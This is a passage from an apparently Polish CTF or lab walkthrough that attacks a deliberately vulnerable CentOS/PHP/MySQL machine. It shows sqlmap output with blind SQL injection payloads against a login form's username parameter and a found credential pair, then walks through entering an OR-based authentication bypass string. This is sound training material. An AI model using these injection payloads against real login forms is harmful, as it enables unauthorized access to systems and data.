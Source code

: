 ```
web server operating system: Linux CentOS 4
web application technology: PHP 4.3.9, Apache 2.0.52
back-end DBMS: MySQL < 5.0.0
banner: '4.1.22'

**jest i login/pass: john/hiroshima**
```
Niestety wbić się na serwer można chyba tylko przez "localhosta", albo z jakiegoś konkretnego ip. Po próbie zalogowania się na użytkownika john serwer nas odrzuca. Jeszcze nie wszystko stracone. **Sqlmap** wypisał nam również podatność SQL Injection, którą możemy użyć w naszym zapytaniu.
{: .text-justify}
```
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: uname (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: uname=-9079' OR 4132=4132-- SPZO&psw=admin&btnLogin=Login
    Vector: OR [INFERENCE]

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (heavy query)
    Payload: uname=admin' AND 4343=BENCHMARK(5000000,MD5(0x68787441))-- OMGv&psw=admin&btnLogin=Login
    Vector: AND [RANDNUM]=IF(([INFERENCE]),BENCHMARK([SLEEPTIME]000000,MD5('[RANDSTR]')),[RANDNUM])
---

```
Parametry __uname__ i __psw__ są podatne na wstrzyknięcia. Spróbujmy z __uname__. Do pola **Username** wpisujemy ```-9079' OR 4132=4132-- ``` Uwaga, należy pamiętać o spacji po **--**, inaczej wstrzyknięcie się **nie powiedzie**.
{: .text-justify}

Naszym oczom się ukazuje takie coś...
{: .text-justify}

![login](/assets/images/hacking/2021/01/04.png)

Fajnie, chciałbym popingować, ale gdzie mam wpisać adres? Spójrzmy na kod html.
